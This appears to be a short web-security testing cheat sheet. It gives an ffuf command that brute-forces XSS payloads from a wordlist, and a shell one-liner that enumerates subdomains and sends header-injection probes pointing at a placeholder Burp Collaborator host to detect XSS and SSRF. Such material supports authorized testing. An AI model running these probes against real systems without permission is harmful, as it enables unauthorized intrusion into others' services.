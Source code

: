 #(XSS with Request File){Uses FFUF to bruteforce XSS vulnerabilities using a request file.}
------
	ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr "<script>alert('XSS')</script>"


---- Advanced Techniques ------

# (XSS/SSRF Header Testing){Tests for XSS and SSRF vulnerabilities using various methods. }
-----
	cat example.coms.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e "\e[1;32m$url\e[0m""\n""Method[1] X-Forwarded-For: xss+ssrf => $xss1""\n""Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2""\n""Method[3] Host: xss+ssrf ==> $xss3""\n""Method[4] GET http://xss.yourburpcollabrotor HTTP/1.1 ""\n";done

